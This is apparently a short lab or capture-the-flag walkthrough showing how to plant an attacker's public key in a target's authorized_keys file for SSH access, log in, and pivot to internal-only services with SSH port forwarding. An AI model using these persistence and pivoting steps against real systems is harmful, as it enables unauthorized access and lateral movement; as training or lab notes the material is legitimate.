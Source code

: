 #### gen ecdsa key

```bash
ssh-keygen -t ecdsa -b 521
```

pass path with file name _id_ecdsa_

![ssh-keygen.png](ssh-keygen.png)

#### public key to authorised_keys

with echo move public key to authorised keys

```bash
echo "ecdsa-sha2-nistp521 AAAAE2VjZHNhLXNoYTItbmlzdHA1MjEAAAAIbmlzdHA1MjEAAACFBAF8RoPKOXwQx2cl9ChH2VbZif9nsWHPE8UAMAdK7eMyUzBHvHsr9QeRmtVnO+V1nZh3q6EPW04k6mF8jbZbNTGBGAGvyQ0qMiuT68oR64ouKCqy9rro7+uWl3738G6HSqge5rv35gwwGe2ZVNlx4SsuI+PsRFSvqi09j0IuHQEqXTEbPw== splitunknown@splitunknown" >> authorized_keys
```

#### ssh to server

```bash
ssh -i key/id_ecdsa apaar@10.10.10.162
```

#### PIVOTING after SSH Login

```bash
netstat -nlpt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
```

```bash
~C
ssh>
```

```bash
ssh> help
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

```ssh
ssh> -L 9001:127.0.0.1:9001
Forwarding port.
```

![pivoting.png](pivoting.png)

#### PIVOTING while SSH Login

```bash
sudo ssh -L LocalPort:LHost:RPORT  user@ip
```

```bash
sudo ssh -L 80:127.0.0.1:80  user@ip
```
